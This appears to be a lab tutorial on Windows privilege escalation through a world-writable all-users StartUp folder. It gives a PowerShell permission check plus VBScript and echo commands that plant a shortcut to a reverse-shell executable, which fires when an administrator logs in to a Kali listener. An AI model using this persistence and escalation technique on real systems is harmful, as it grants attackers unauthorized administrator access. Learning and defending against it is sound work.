

7. Startup Apps
Startup Apps
• Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory.
• Windows also has a startup directory for apps that should start for all users:
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
• If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.
1. Use accesschk.exe to check permissions on the StartUp directory:
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -d 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp'";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip"; The BUILTIN Users group has write access to "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\" directory so we can add a startup app which will start whenever any user logs in
2. Startups in "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\" must be shortcuts, also known as link files(.lnk)
3. Create a file CreateShortcut.vbs with the following VBScript. Change the oLink.TargetPath variable path
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save We can copy paste all the following code to create the CreateShortcut.vbs file
echo Set oWS = WScript.CreateObject("WScript.Shell") > CreateShortcut.vbs
echo sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk" >> CreateShortcut.vbs
echo Set oLink = oWS.CreateShortcut(sLinkFile) >> CreateShortcut.vbs
echo oLink.TargetPath = "C:\PrivEsc\reverse.exe" >> CreateShortcut.vbs
echo oLink.Save >> CreateShortcut.vbs veryfy that the file is been created
C:\> type CreateShortcut.vbs
5. Run the script using cscript:
C:\> cscript CreateShortcut.vbs
5. Start a listener on Kali
7. When the administrator user will login on the target Windows, he will trigger automatically the exploit.
